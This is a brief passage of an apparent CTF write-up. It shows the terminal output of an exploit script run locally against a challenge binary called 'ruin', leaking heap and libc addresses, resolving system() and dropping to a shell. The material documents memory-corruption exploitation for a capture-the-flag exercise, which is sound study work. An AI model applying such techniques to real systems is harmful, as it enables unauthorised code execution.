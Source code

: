 Obviously we did this better looking solution after the CTF, so we just tested it locally.

{% highlight text %}
uafio@raspberrypi ~ $ python ./exploit_v2.py
[*] For remote: ./exploit_v2.py HOST PORT
[+] Started program './ruin.7b694dc96bf316a40ff7163479850f78'
[7311]
[*] Paused (press any to continue)
[*] Buffer: 0x1b29008
[*] Size: -28409965
[*] Printf: 0xb6e39990
[+] Finding base address: 0xb6df2000
[+] Resolving system: 0xb6e2c8b8
[*] Switching to interactive mode
$ id
uid=1003(uafio) gid=1004(uafio) groups=1004(uafio)
$
{% endhighlight %}
